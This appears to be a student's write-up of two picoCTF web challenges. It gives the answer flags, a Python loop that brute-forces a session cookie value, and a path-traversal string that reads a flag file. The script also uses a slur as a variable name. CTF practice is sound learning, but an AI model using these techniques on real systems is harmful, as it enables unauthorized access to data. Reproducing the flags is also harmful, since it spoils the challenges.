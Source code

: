﻿# Cookies

### Flag: picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535} 


   * The Challenge is Called Cookies so Naturally First thought is that is has something to do with Web Cookies.
   * The Challenge Description provides us links to the following web-app `http://mercury.picoctf.net:17781/`

![Home Image](assets/web_home.png)
    
   - Inspecting the Dev panel we notice something very interesting, There's a Cookie called "name" with the values "-1"
   - Ok lets Explore further 

![Requests Image](assets/request_image.png)

   - Next typing the prompt on the text box gives us 2 Network Requests as seen on the image. 

   - Ok, now lets try with something random in the box

![invalid Request Image](assets/random_req_image.png) 

   - so it seems that when we search a valid string  the search sets up the name cookie redirects us to '/check' and if not it just sends us back to the home page
   - We need to Find the valid cookie value for the flag, 
   - This Code Prints the Html oF the page with the flag. 

```py
    import requests
    for i in range(100):
        print(i) #debugging
        changed_values = f"name={i}"
        niga={'Cookie': changed_values}


        r=requests.get("http://mercury.picoctf.net:17781/check",headers=niga)

        if "picoCTF" in r.text:
            print(r.text)
            break
```

   - Gives output as

```
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```




   - looking through the html we get the flag. 


Other incorrect methods you tried:

- Looked through the entire files and things as i incorrectly thought that you needed a specific password phrase to get the flag. 



---

# Forbidden Paths

### Flag: picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}

   - In the Challenge there is a Dialog box for reading files
![paths_image](assets/path_image.png)
   - Use `../../../../../../../../../../../../flag.txt` to print the flag. 



What you learned through solving this challenge:

1. Search for arbitary command Injection in Websites,
2. Linux Command Line Manipulation. 



 



